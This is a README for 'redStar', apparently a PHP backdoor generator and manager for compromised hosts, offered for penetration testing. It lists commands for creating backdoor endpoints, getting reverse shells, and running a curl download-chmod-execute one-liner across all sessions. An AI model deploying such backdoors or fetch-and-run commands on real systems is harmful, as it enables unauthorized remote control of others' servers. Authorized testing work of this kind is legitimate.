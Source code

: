 # redStar

redStar is php backdoor generator and management project. 
redStar generated for penetration tests, you can manage all pwned hosts.

redStar supports autocomplete with [TAB]

## Setup
- pip3 install -r requirements.txt

## Running
- python3 main.py

## Usage

### Create PHP Endpoint File 
createEndpoint 123456 1  => Creates php file in "endpoints" folder

createEndpoint 123456 0  => Creates php file in given path

**OR**

createEndpoint           => Create php file interactive


### Add New Endpoint to redStar
addEndpoint http://localhost/end.php 123456

### Check Avaible Endpoint
checkOnlineSessions

### Execute Commands in All sessions
multiTask "curl http://localhost/test.bin;chmod +x test.bin;./test.bin"

### Get All Sessions
sessions

### Clear Database
clearDB

### Get Fake Shell
sessions 31EAF990D1AB shell

### Get Reverse Shell
sessions 31EAF990D1AB reverseShell

### Delete Session
sessions 31EAF990D1AB delete

### Show Banner
banner


*For Educational Porpuse*
